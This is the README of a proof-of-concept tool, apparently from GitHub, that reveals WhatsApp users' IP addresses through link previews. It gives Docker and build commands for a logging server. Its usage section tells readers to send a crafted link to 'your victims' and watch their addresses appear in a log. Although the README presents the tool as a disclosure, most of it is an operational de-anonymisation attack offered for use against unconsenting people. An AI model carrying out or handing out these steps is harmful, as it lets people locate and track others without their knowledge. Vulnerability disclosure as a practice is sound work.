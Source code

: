 ## WhatsApp user’s IP disclosure with Link Preview

#### Synopsis

As you know modern messengers have many features besides their main function — texting.
They are able to play/record music/videos, send photos/geolocation and so on.

So they are also capable to generate link previews.
The best practice is to generate preview by external proxy server which will fetch content for you. 

However WhatsApp developers decided to rely on internal web engine that comes with OS.

It's not needed to explain that now WhatsApp will leak your IP address on every received link, **and** in addition you will leak your IP in link preview mode without actually opening the link.  

---
**NOTE: You will need VPS with static IP and domain.**

#### Quickstart - Docker

1. `sudo docker pull unstab1e/whatsipp`
2. `sudo docker run --rm -it -p 80:8080 unstab1e/whatsipp`

#### Setup

1. Get the repo by `go get`/`git clone`:
```bash
$ go get https://github.com/moldabekov/whatsipp
```
or
```bash
$ git clone https://github.com/moldabekov/whatsipp
```

2. Build binary:
`$ make build`

3. Run it:
`$ sudo W_LEAK_PORT=80 ./main`

* If you would like to build and run docker container by yourself please execute the following command on step 3 (docker may require root priviledges):
`$ make docker`

#### Usage

To test PoC on yourself:
1. Open WhatApp client and type your URL (*e.g. https://domain.com/leak*)
1. Check logs to see your leaked IP 

To leak other people IP addresses: 
1. Send this link to your victims: https://api.whatsapp.com/send?phone=+**PHONE_NUMBER**&text=http%3A%2F%2F**YOUR_EVIL_URL**

* In separate tab watch IP leaks:
`$ tail -f visitors.log`

#### Screenshots

![WhatsAppPreview](https://user-images.githubusercontent.com/669547/39394182-9232f4da-4af0-11e8-9108-48a16b47e163.jpg)

![visitors](https://user-images.githubusercontent.com/669547/39394174-6f01428c-4af0-11e8-9a9f-12503c95df6b.png)

#### Credits
Greets goes to *Rahul Kankrale* for figuring things out.

#### License
(C) MIT License

